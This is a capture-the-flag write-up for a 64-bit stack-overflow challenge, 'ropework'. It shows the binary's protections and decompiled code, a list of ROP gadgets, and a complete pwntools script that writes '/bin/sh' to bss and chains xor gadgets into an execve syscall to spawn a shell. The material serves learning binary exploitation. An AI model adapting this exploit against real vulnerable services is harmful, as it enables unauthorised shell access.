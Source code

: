 # ropework

Author: [d1g174l_f0rtr355](https://twitter.com/BhaskaraShravya)

Solves: 9

Difficulty: Medium

## Preliminary Analysis:

We notice that the binary is a 64-bit non-stripped binary with the folloeing protections:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
## Understanding the challenge:

The binary itself is very simple:
```
  char s[16]; // [rsp+0h] [rbp-10h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  system("echo 'The fisherman is trying to untangle his fishing knots. If you could help him with it, it would be great!\n'");
  fgets(s, 329, stdin);
  system("echo 'Ok bye!\n'");
  return 0;
```

Since there is no other function to return to and with PIE being disabled, we can begin our exploitation by creating a suitable ROP chain. There could be other ways pf creating the ROP chain with the available gadgets. I would be showing one of those methods.

## Exploitation:

The ROP chain is made up of the following instructions:

```
pop_rdi = 0x0000000000401273# pop rdi ; ret
pop_rsi = 0x0000000000401271# pop rsi ; pop r15 ; ret
pop_r12 = 0x000000000040126c# pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

xor_rax_rax = 0x0000000000401182# 
xor_rax_rbx = 0x0000000000401186
xor_rbx_rbx = 0x000000000040118a
xor_rdx_rbx = 0x000000000040118e
xor_rdx_rdx = 0x0000000000401192

mov_rbx_r10 = 0x000000000040117e
movq_rdx_r10 = 0x000000000040119e# mov qword ptr [rdx], r10 ; ret

xor_r10_r10 = 0x0000000000401196
xor_r10_r12 = 0x000000000040119a

ret = 0x0000000000401205
syscall = 0x00000000004011a2
```

Upon xorring two same registers, the registers get nulled out. We can transfer the contents of a register to another using xor with the help of a similar technique. Since anything xorred with 0 is the number itself, we make use of this concept to eventually place the string "/bin/sh" into a bss address. We then pop the address into register `rdi`. We also set `rax` to contain `0x3b` and null out registers `rsi` and `rdx` before making the syscall.

## Exploit:

```
from pwn import *

p = process('./ropework')
#gdb.attach(p, gdbscript='set follow-fork-mode parent\n')
#p = remote('localhost', 4008)
p.recvline()

'''
gadgets
'''
pop_rdi = 0x0000000000401273
pop_rsi = 0x0000000000401271
pop_r12 = 0x000000000040126c

xor_rax_rax = 0x0000000000401182
xor_rax_rbx = 0x0000000000401186
xor_rbx_rbx = 0x000000000040118a
xor_rdx_rbx = 0x000000000040118e
xor_rdx_rdx = 0x0000000000401192

mov_rbx_r10 = 0x000000000040117e
movq_rdx_r10 = 0x000000000040119e

xor_r10_r10 = 0x0000000000401196
xor_r10_r12 = 0x000000000040119a

ret = 0x0000000000401205
syscall = 0x00000000004011a2

bss = 0x404030

pay = 'a'*0x10
pay += 'b'*0x8
pay += p64(ret)# leave_ret

pay += p64(pop_r12)
pay += p64(bss)
pay += p64(0x0)
pay += p64(0x0)
pay += p64(0x0)

pay += p64(xor_r10_r10)
pay += p64(xor_r10_r12)

pay += p64(xor_rbx_rbx)
pay += p64(mov_rbx_r10)

pay += p64(xor_rdx_rdx)
pay += p64(xor_rdx_rbx)

pay += p64(pop_r12)
pay += p64(u64("/bin/sh\x00"))
pay += p64(0x0)
pay += p64(0x0)
pay += p64(0x0)

pay += p64(xor_r10_r10)
pay += p64(xor_r10_r12)

pay += p64(movq_rdx_r10)

pay += p64(pop_rdi)
pay += p64(bss)

pay += p64(pop_r12)
pay += p64(0x3b)
pay += p64(0x0)
pay += p64(0x0)
pay += p64(0x0)

pay += p64(xor_r10_r10)
pay += p64(xor_r10_r12)

pay += p64(xor_rbx_rbx)
pay += p64(mov_rbx_r10)
pay += p64(xor_rax_rax)
pay += p64(xor_rax_rbx)

pay += p64(xor_rdx_rdx)

pay += p64(pop_rsi)
pay += p64(0x0)
pay += p64(0x0)

#pay += p64(xor_rbx_rbx)

pay += p64(syscall)
#pay += p64(ret)

print(len(pay))
p.sendline(pay)
p.interactive()

```

